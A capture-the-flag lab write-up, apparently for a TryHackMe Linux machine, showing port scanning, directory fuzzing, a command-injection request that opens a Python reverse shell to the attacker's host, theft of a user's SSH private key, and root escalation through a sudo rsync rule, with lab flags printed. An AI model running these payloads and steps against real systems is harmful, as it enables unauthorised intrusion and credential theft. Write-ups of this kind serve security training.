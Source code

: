 # Linux Machine

## Machine Info



## Ports Scan

```bash
nmap -T4 -sV -p- --min-rate 1000 --open -oN port_scan.txt 10.200.150.152

Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 20:09 CEST
Nmap scan report for 10.200.150.152
Host is up (0.058s latency).
Not shown: 65511 closed tcp ports (reset), 22 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58
Service Info: Host: ip-10-200-150-152.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Breach

The default page give this page

<figure><img src="../../../.gitbook/assets/image (388).png" alt=""><figcaption></figcaption></figure>

An attacker could enumerate the paths with a fuzzing tool like Gobuster

{% code overflow="wrap" %}
```
gobuster dir -u http://10.200.150.152/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -b 503,404
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (389).png" alt=""><figcaption></figcaption></figure>

In this way an attacker has these 3 new paths

```
/docs                 (Status: 200) [Size: 931]
/api                  (Status: 200) [Size: 59]
/redoc                (Status: 200) [Size: 891]
```

This is a API service.

The `/api` page shows a version for the service.

<figure><img src="../../../.gitbook/assets/image (390).png" alt=""><figcaption></figcaption></figure>

The /redoc page shows the service which running in the server.

<figure><img src="../../../.gitbook/assets/image (391).png" alt=""><figcaption></figcaption></figure>



### Service version Outdated

This version is vulnerable to RCE, inject command to establish a Reverse Shell.

{% embed url="https://huntr.com/bounties/32c2c9b1-54cc-46fc-9261-b01fe3b5ede4" %}

{% code overflow="wrap" %}
```bash
curl -v http://10.200.150.152/api/tools -H 'Content-Type: application/json' -d '{"filename":"CommandInjection","dependencies":[],"content":"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.250.1.6\",8899));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);"}'
```
{% endcode %}

```
nc -lnvp 8899
```

<figure><img src="../../../.gitbook/assets/image (392).png" alt=""><figcaption></figcaption></figure>



### Lateral Movement

An attacker which made access to the system can steal the `id_rsa` file in the scott's directory.

<figure><img src="../../../.gitbook/assets/image (393).png" alt=""><figcaption></figcaption></figure>

Copying this key an attack can access via SSH using this Private Key

```bash
chmod 600 id_rsa
ssh -i id_rsa scott@10.200.150.152
```



### Machine Flag

As user machine an attacker can steal the machine flag

```bash
cat /user.txt

THM{02e4b6e8-1c95-4bb3-b055-871dca86fe46}
```



## Privilege Escalation

### Insecure Sudo configuration

An attacker after enumerated the Scott permission can exploit this misfoncifguration to obtain root access to the machine.

```bash
sudo -l

Matching Defaults entries for scott on lin3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User scott may run the following commands on lin3:
    (ALL) NOPASSWD: /usr/bin/rsync
```

An attacker could use this rsync insecure configuration to obtain root access.

```bash
sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```

<figure><img src="../../../.gitbook/assets/image (394).png" alt=""><figcaption></figcaption></figure>



### Machine flag

An attacker with root access could steal the root machine flag

```bash
cat /root/root.txt

THM{04bf30f1-9745-4459-b19c-e9159e6d3746}
```
